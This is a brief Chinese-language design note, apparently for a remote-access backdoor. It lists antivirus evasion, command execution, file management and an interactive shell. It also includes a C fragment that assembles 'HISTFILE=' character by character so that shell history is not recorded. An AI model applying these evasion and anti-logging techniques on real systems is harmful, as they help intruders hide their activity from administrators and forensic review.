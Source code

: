 # 需要支持的功能

*   免杀
*   命令执行
*   文件管理
*   交互式shell

需要时刻注意权限问题，可能有些时候，文件什么的没有相应的权限进行操作

# 交互式shell实现

*   需要处理掉HISTFILE环境变量，免得被shell记录

*   通过fork实现，使其支持多个用户同时启动shell

```eg
    /* just in case bash is run, kill the history file */

    temp = (char *) malloc( 10 );

    if( temp == NULL )
    {
        return( 36 );
    }

    temp[0] = 'H'; temp[5] = 'I';
    temp[1] = 'I'; temp[6] = 'L';
    temp[2] = 'S'; temp[7] = 'E';
    temp[3] = 'T'; temp[8] = '=';
    temp[4] = 'F'; temp[9] = '\0';

    putenv( temp );

```

